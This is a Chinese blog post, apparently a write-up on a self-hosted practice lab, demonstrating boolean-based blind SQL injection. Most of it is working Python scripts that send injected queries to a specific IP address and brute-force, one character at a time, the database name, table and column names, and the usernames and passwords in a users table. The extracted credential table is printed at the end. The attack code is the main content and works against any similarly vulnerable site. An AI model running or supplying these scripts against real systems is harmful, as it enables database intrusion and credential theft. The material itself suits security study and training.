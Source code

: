 ```yaml
---
title: sql布尔盲注
date: 2022-07-06 15:47:40
permalink: /pages/d02d16/
categories:
  - 网络安全
  - web安全
  - 自建靶场
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

#  sql布尔盲注

## 用的是自己以前的老脚本，效率不高但能显示出结果

### 基本思路

> 先找到查出数据库长度，然后通过数据库长度爆破出数据名
>
> python代码如下：

```python
import requests
url="http://120.27.61.239:8007/source/index2.php?id="
a="You are in..........."
def DBlength(url,str):
    for i in range(1,40):
        attack_url=url+"1'and length(database())={0}--+" .format(i)
        ret=requests.get(attack_url)
        if str in ret.text:
            print("数据库长度为：{0}" .format(i))
            return i
        else:
            continue
def DBname(url,str,num):
    name=()
    for j in range(1,num+1):
            for i in range(65,122):
                attack_url=url+"1'and ascii(substr(database(),{1},1))={0}--+".format(i,j)
                ret=requests.get(attack_url)
                if str in ret.text:
                    name+=(chr(i),)
    return name
if __name__ == '__main__':
	num=DBlength(url,a)
	dbname=DBname(url,a,num)
	databasename=''.join(dbname)
	print("数据库名"+str(databasename)+"数据库长度"+str(num))
```

> 效果图如下：

![image-20220705154625344](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705154625344.png)

> 获得数据库名后通过此数据库名获取此数据库名的表名，表的长度，有多少个表等

```python
具体核心代码如下：
def tables(url,str):
    for i in range(1,10):
        attack_url=url+"1'and((select count(table_name) from information_schema.tables where table_schema=database())={0})--+".format(i)
        ret=requests.get(attack_url)
        if str in ret.text:
            print("有{0}个表".format(i))
            return i
def tbinformation(url,str,num):
    tb_array=[]
    tbname=[]#先算它每张表的长度
    for i in range(0,num):
        for j in range(1,64):
            attack_url=url+"1'and (select length((select table_name from information_schema.tables where table_schema=database() limit {0},1)))={1}--+".format(i,j)
            ret=requests.get(attack_url)
            if str in ret.text:
                print("第{0}个表长度为{1}".format(i+1,j))
                tb_array.append(j)
                break
    for i in range(0,num):#然后再爆破出它的表名
        a=[]
        for j in range(0,tb_array[i]):
            for l in range(97,122):
                attack_url=url+"1'and (select ascii(substr((select table_name from information_schema.tables where table_schema=database() limit {0},1),{1})))={2}--+".format(i,j+1,l)
                ret=requests.get(attack_url)
                if str in ret.text:
                    a.append((chr(l)))
                    break
        name=''.join(a)
        tbname.append(name)
    return tbname
```

> 实现效果图如下：

![image-20220705160936085](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705160936085.png)

> 获得数据表名，开始通过获取的表名拿到对应每张表的列名
>
> 因为此处表非常多，所以这里就选择最重要的userpwd和user表来爆破
>
> 核心代码如下：

```python
def column(url,str,tbname):
    flag=0
    colum=[]
    column_name=[]
    for i in range(1,20):
        attack_url=url+"1'and(select count(column_name)from information_schema.columns where table_name='{0}')={1}--+".format(tbname,i)
        ret=requests.get(attack_url)
        if str in ret.text:
            flag=i
            break
    for i in range(0,flag):
        for j in range(1,20):
            attack_url=url+"1' and (select length(substr((select column_name from information_schema.columns where table_name='{2}' limit {0},1),1)))={1}--+".format(i,j,tbname)
            ret=requests.get(attack_url)
            if str in ret.text:
                colum.append(j)
                break      
    for i in range(0,flag):
        test=[]
        for l in range(0,colum[i]):
            for j in range(97,122):
                attack_url=url+"1' and (ascii(substr((select column_name from information_schema.columns where table_name='{3}' limit {0},1),{1})))={2}--+".format(i,l+1,j,tbname)
                ret=requests.get(attack_url)
                if str in ret.text:
                    test.append(chr(j))
                    # print(test)
                    break
        a="".join(test)
        # print(a)
        column_name.append(a)
    return column_name
```

> 先跑的是userpwd表，但是跑完后里面并没有任何信息

![image-20220705162600945](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705162600945.png)

> 手工查一下看是不是此表内是不是根本没有列

```mysql
mysql语句如下：
select count(column_name) from information_schema.columns where table_name='userpwd'
```

> 结果跟我猜想的一样，并无数据

![image-20220705163215920](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705163215920.png)

> 那么接下来就查询users表里的列名
>
> 核心代码跟上面一样只是换了一个表名
>
> 效果图如下：

![image-20220705163408117](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705163408117.png)

> 知道了表名那么久很简答了，只要把里面的数据爆破出来就好了，因为一般登录只需要username和password就行了，id只是一个排序的，所以优先爆破username和password
>
> 核心代码如下：

```python
def contents(name):
    sj=[]
    count=0
    for i in range(30):
        attck_url=url+"1'and (select count({0}) from users)={1}--+".format(name,i)
        ret=requests.get(attck_url)
        if a in ret.text:
            count=i
            print(count)
            break
    for i in range(0,count):
        test=[]
        flag=0
        for j in range(1,20):
            attck_url=url+"1' and (select length((select {2} from users limit {0},1)))={1}--+".format(i,j,name)
            ret=requests.get(attck_url)
            if a in ret.text:
                flag=j
                print('第{0}个数据长度为{1}'.format(i+1,j))
                break
        for j in range(flag):
            for k in range(33,127):
                attck_url=url+"1'and (select ascii(substr((select {3} from users limit {0},1),{1},1)))={2}--+".format(i,j+1,k,name)
                ret=requests.get(attck_url)
                if a in ret.text:
                    test.append(chr(k))
                    break
        b="".join(test)
        sj.append(b)
        print(sj)
```

> 效果图如下：

> 账号：

![image-20220705172515233](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705172515233.png)

> 密码:

![image-20220705172603464](C:\Users\HP\AppData\Roaming\Typora\typora-user-images\image-20220705172603464.png)

> 总结一下，user表内所有内容如下：

| id   | username | password   |
| ---- | -------- | ---------- |
| 1    | hetian   | hetian1    |
| 2    | Hetian   | I-kill-you |
| 3    | Heetian  | p@ssword   |
| 4    | hetian   | hetian     |
| 5    | heetian  | stupidity  |
| 6    | superman | genious    |
| 7    | batman   | mob!le     |
| 8    | admin    | admin      |
| 9    | admin1   | admin1     |
| 10   | admin2   | admin2     |
| 11   | admin3   | admin3     |
| 12   | dhakkan  | dumbo      |
| 13   | admin4   | admin4     |

